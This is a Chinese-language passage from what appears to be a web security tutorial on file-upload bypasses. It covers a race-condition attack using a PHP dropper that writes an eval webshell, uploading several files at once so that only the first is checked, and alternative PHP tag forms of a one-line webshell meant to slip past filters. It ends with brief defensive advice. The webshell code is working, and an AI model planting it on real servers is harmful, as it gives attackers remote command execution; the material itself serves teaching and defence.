 在文件被删除前访问文件，利用时间差进行绕过

文件上传后，服务器会首先保存文件然后重命名，最后删除源文件。在文件删除之前，如果线程过大可能导致服务器处理数据变慢，因此在文件上传成功后和删除文件之间存在一个短暂的时间差（因为需要执行检查文件和删除文件的操作），攻击者可以利用这个时间差完成竞争条件的上传漏洞攻击。

方法：

先上传一个shell脚本test.php,内容为生成一个新的webshell脚本shell.php

test.php内容如下

```
<?php
	fputs(fopen("../shell.php", "w"),'<?php @eval($_POST['cmd']); ?>');
?>
```

当test.php上传完成后，客户端立即访问test.php,这样就会在服务端当前目录下自动生成shell.php,这时攻击者就利用了时间差完成了webshell的上传

### 多文件上传

上传多个文件只检查第一份文件

第一份上传合法正常文件，第二份上传木马

### php其他标签绕过

```
<?php @eval($_POST['cmd']); ?>            //正常写法
<?=@eval($_POST['cmd']); ?>                //短标签，适合过滤php
<% @eval($_POST['cmd']); %>                //asp风格
<script language='php'>@eval($_POST['cmd']);</script>         //<script>风格，适合过滤<?
```

## 防护建议

文件扩展名白名单校验：只允许特定类型的文件上传。

文件内容校验：检查文件内容是否符合预期。

上传文件重命名：避免使用用户提供的文件名。

隐藏上传文件路径：防止直接访问上传文件